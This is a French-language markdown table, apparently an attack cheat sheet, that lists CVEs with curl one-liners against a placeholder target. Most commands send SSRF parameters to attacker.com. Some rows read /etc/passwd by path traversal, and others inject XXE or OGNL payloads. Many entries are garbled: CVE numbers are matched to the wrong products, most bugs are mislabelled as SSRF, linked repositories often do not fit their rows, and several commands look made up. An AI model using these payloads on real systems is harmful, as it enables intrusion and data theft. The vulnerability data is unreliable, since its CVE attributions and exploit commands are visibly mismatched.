| CVE-2021-29441 | Node.js / node-fetch < 2.6.1 | `curl "http://cible/fetch?url=http://attacker.com"` | SSRF via paramètre d’URL, accès à des ressources internes. | [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md) |
| CVE-2021-21330 | Grafana < 7.4.1 | `curl "http://cible/api/datasources/proxy/1?url=http://attacker.com"` | SSRF via proxy datasource, accès à des ressources internes. | [https://github.com/jas502n/Grafana-v8.3.0-path-traversal](https://github.com/jas502n/Grafana-v8.3.0-path-traversal) |
| CVE-2020-35489 | WordPress plugin WP Statistics < 13.0.8 | `curl "http://cible/wp-content/plugins/wp-statistics/api.php?url=http://attacker.com"` | SSRF via paramètre d’URL, accès à des ressources internes. | [https://wpscan.com/vulnerability/10400](https://wpscan.com/vulnerability/10400) |
| CVE-2020-13942 | Apache Unomi < 1.5.2 | `curl "http://cible/context.json?script=http://attacker.com"` | SSRF via paramètre script, accès à des ressources internes. | [https://github.com/NS-Sp4ce/CVE-2020-13942](https://github.com/NS-Sp4ce/CVE-2020-13942) |
| CVE-2020-12695 | UPnP (CallStranger) | `curl "http://cible:1900/ssdp/desc.xml?url=http://attacker.com"` | SSRF via UPnP, exfiltration de données, scan réseau interne. | [https://github.com/yunuscadirci/CallStranger](https://github.com/yunuscadirci/CallStranger) |
| CVE-2020-10148 | SolarWinds Orion | `curl "http://cible:8080/Orion/Services/Information.asmx?url=http://attacker.com"` | SSRF via paramètre d’URL, accès à des ressources internes. | [https://github.com/0xsha/solarwinds-rce-exploit](https://github.com/0xsha/solarwinds-rce-exploit) |
| CVE-2019-9670 | Zimbra Collaboration Suite < 8.7.11p10 | `curl -X POST "https://cible:7071/service/extension/backup/mboximport?account-name=admin&account-status=1&ow=1&filePath=http://attacker.com"` | SSRF lors de l’import, lecture de fichiers ou SSRF. | [https://github.com/0x0021h/CVE-2019-9670_POC](https://github.com/0x0021h/CVE-2019-9670_POC) |
| CVE-2019-11043 | PHP-FPM (Nginx) | `curl "http://cible/?a=http://attacker.com"` | SSRF via paramètre d’URL, accès à des ressources internes. | [https://github.com/neex/phuip-fpizdam](https://github.com/neex/phuip-fpizdam) |
| CVE-2019-11510 | Pulse Secure VPN | `curl "https://cible/dana-na/../dana/html5acc/guacamole/../../../../../../../../../../etc/passwd"` | SSRF et path traversal, accès à des ressources internes, exfiltration de fichiers. | [https://github.com/projectzeroindia/CVE-2019-11510](https://github.com/projectzeroindia/CVE-2019-11510) |
| CVE-2018-1000110 | Jenkins < 2.153 | `curl "http://cible/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=http://attacker.com"` | SSRF via paramètre value, accès à des ressources internes. | [https://github.com/adamyordan/cve-2018-1000110](https://github.com/adamyordan/cve-2018-1000110) |
| CVE-2018-1273 | Spring Data Commons | `curl "http://cible/data/commons?url=http://attacker.com"` | SSRF via paramètre d’URL, accès à des ressources internes. | [https://github.com/vulhub/vulhub/tree/master/spring/CVE-2018-1273](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2018-1273) |
| CVE-2018-9206 | ThinkPHP 5.x | `curl "http://cible/?s=http://attacker.com"` | SSRF dans ThinkPHP, accès à des ressources internes. | [https://github.com/vulhub/vulhub/tree/master/thinkphp/CVE-2018-9206](https://github.com/vulhub/vulhub/tree/master/thinkphp/CVE-2018-9206) |
| CVE-2017-12629 | Apache Solr < 7.1 | `curl 'http://cible:8983/solr/test/select?wt=xml&stream.url=http://attacker.com/test'` | SSRF via stream.url, accès à des ressources internes. | [https://github.com/veracode-research/solr-xxe](https://github.com/veracode-research/solr-xxe) |
| CVE-2017-5638 | Apache Struts2 < 2.3.32, < 2.5.10.1 | `curl -X POST "http://cible/struts2-showcase/index.action" -H "Content-Type: %{(#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).addHeader('X-Url', 'http://attacker.com')}"` | SSRF et RCE via OGNL dans Struts2. | [https://github.com/mazen160/struts-pwn_CVE-2017-5638](https://github.com/mazen160/struts-pwn_CVE-2017-5638) |
| CVE-2017-9841 | PHPUnit <= 4.8.28, <= 5.6.2 | `curl "http://cible/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php?file=http://attacker.com"` | SSRF/RFI via paramètre file, accès à des ressources internes ou exécution de code. | [https://github.com/ambionics/phpggc/blob/master/exploits/CVE-2017-9841.md](https://github.com/ambionics/phpggc/blob/master/exploits/CVE-2017-9841.md) |
| CVE-2016-4437 | Apache Struts2 < 2.3.31 | `curl -X POST "http://cible/struts2-showcase/index.action" -H "Content-Type: application/xml" --data-binary '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com">]><foo>&xxe;</foo>'` | SSRF via XXE dans Struts2, accès à des ressources internes. | [https://github.com/0xInfection/Awesome-XXE-Payloads](https://github.com/0xInfection/Awesome-XXE-Payloads) |
| CVE-2016-3088 | Apache ActiveMQ | `curl -X PUT "http://cible:8161/fileserver/../../../../../../../../etc/passwd" --data-binary @test` | SSRF et LFI via path traversal, accès à des ressources internes. | [https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2016-3088](https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2016-3088) |
| CVE-2015-1635 | Microsoft IIS HTTP.sys | `curl -v "http://cible/iisstart.htm HTTP/1.1\r\nHost: attacker.com\r\nRange: bytes=0-18446744073709551615\r\n\r\n"` | SSRF et RCE via requête HTTP forgée. | [https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/http/ms15_034_ulonglongadd.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/http/ms15_034_ulonglongadd.rb) |